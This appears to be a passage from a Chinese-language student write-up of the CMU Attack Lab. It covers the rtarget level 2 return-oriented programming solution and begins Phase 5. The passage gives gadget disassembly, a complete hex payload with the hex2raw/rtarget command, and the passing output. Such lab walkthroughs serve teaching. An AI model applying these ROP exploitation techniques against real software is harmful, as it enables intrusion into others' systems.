 ```0
00000000004019ca <getval_280>:
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  4019cf:	c3                   	ret

00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	ret
```
那么自然可以得到输入字符串为：

```0
30 30 30 30 30 30 30 30 30 30
30 30 30 30 30 30 30 30 30 30
30 30 30 30 30 30 30 30 30 30
30 30 30 30 30 30 30 30 30 30 # getbuf栈的40字节
cc 19 40 00 00 00 00 00 # 0x4019ca + 0x2
fa 97 b9 59 00 00 00 00 # cookie的值
c5 19 40 00 00 00 00 00 # 0x4019c3 + 0x2
ec 17 40 00 00 00 00 00 # touch2起始位置
```
保存为rtouch2.txt，并执行`./hex2raw < rtouch2.txt | ./rtarget -q`
得到返回结果
```0
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:2:30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 CC 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 C5 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```
## Phase5 - RTarget
其实在ctarget里面把cookie的地址放在test栈内时，第五题的难点就在于如何找到cookie的地址，因为%rsp的位置并非确定而是随机值。  
最开始的想法是将%rsp保存在%rax内，然后add一个偏移量即可找到cookie地址，但farm内并无add语句的办法，于是需要找另一种办法——lea。

```0
00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	ret
```
那么可以先把%rsp保存在%rdi，将偏移量保存在%rsi，执行0x4019d6就能得到cookie地址。  
同时因为没有%rax到%rsi的实现方法，因此只能通过%eax -> %edx -> %ecx -> %esi   
因此就有以下的汇编代码：
```0
popq %rax # 58
movl %eax, %edx   # 89 c2
movl %edx, %ecx   # 89 d1
movl %ecx, %esi   # 89 ce
```
cookie的偏移量为72字节（0x48）
